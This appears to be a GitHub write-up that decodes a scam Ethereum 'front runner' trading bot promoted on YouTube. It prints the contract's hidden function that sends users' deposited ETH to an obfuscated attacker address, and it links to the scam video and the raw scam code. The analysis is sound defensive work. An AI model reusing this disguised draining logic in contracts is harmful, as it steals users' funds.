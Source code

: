 ## Malicious Solidity Decoded
I was recently informed of a "front runner scam" involving a YouTube video promoting an Ethereum trading bot that claimed to utilize MEV (Maximal Extractible Value) techniques. This incident highlights the necessity for thorough examination and auditing of smart contracts, especially those advertised on platforms such as YouTube.

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. 

Intrigued by its mechanics, I embarked on a detailed exploration to unravel how this particular front runner scam bot operated, as outlined in the subsequent sections where I decode its workings.

#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like Ghostbin, Pastebin and binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

- Initial comment encourages user to not try first on testnet. 

```
// Testnet transactions will fail because they have no value in them
```

Using a testnet like Goerli allows users to safely observe and interact with a contract's functionality on-chain without risking real assets, providing a valuable opportunity for learning and verification. Contrary to claims that testnet transactions fail due to lack of value, they are crucial for understanding contract behavior in a risk-free environment.


#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's what happens, summarized:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.

#### Read more about front runner scams on [medium](https://medium.com/remix-ide/remix-in-youtube-crypto-scams-71c338da32d). 

> "Over the last year, but currently at critical mass, thousands of YouTube videos have been offering viewers instructions on how to set up a “front runner bot” to make money by sniping liquidity pools of BNB in PancakeSwap. It’s a scam. Don’t fall for it."